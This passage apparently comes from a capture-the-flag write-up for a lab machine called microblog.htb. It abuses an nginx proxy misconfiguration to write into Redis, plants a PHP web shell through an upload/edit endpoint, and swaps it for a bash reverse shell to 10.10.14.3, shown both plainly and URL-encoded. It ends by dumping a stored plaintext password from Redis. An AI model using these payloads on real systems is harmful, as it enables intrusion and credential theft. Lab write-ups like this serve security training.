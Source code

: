 ```nginx
	{
		resolver 127.0.0.1; proxy_pass http://$1.microbucket.htb/$2;
	}
}
```

That `/static/(.*)/(.*)` seems vulnerable to path traversal vulnerability. Thanks to curl we can write to that redis socket: `curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:foo%20pro%20true%20a/uri"`
And we are Pro now.

Now we are able to upload images to folder: http://foo.microblog.htb/uploads/64de8036164f10.17787109_ghmnjlkopiefq.png `/uploads/`
```bash
curl -i -s -k -X $'POST' \
...
...
    -b $'username=t49mkkpc4a322f9hbhpfcehjp4' \
    --data-binary $'id=/var/www/microblog/foo/uploads/z.php&txt=<?php if(isset($_REQUEST[\'cmd\'])){ echo \"<pre>\"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo \"</pre>\"; die; }?>' \
    $'http://foo.microblog.htb/edit/index.php'

# Testing the PHP script
~z➤ curl -s 'http://foo.microblog.htb/uploads/z.php?cmd=id' | elinks --dump
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ok, let's change the z.php file content: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/55555 0>&1'");?>`
```bash
id=/var/www/microblog/foo/uploads/z.php&txt=%3c%3f%70%68%70%20%65%78%65%63%28%22%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%2f%35%35%35%35%35%20%30%3e%26%31%27%22%29%3b%3f%3e
```

And now we have a nice rev shell:
```bash
~z➤ nc -lvnp 55555
Connection from 10.10.11.213:36906
bash: cannot set terminal process group (619): Inappropriate ioctl for device
bash: no job control in this shell
www-data@format:~/microblog/foo/uploads$ pwd
pwdid
/var/www/microblog/foo/uploads
www-data@format:~/microblog/foo/uploads$
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Exploring redis:
```bash
www-data@format:~/microblog/foo/uploads$ redis-cli -s /var/run/redis/redis.sock
<foo/uploads$ redis-cli -s /var/run/redis/redis.sock
> keys *
cooper.dooper
cooper.dooper:sites

> hgetall cooper.dooper
username
cooper.dooper
password
zooperdoopercooper
first-name
Cooper
last-name
Dooper
pro
```